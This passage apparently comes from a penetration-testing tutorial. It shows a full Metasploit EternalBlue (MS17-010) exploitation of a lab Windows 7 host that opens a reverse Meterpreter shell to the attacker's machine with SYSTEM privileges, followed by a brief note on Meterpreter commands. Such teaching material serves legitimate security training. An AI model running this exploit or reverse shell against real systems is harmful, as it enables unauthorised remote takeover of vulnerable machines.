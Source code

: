 ```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.

#### MSF - Meterpreter Commands

  Payloads
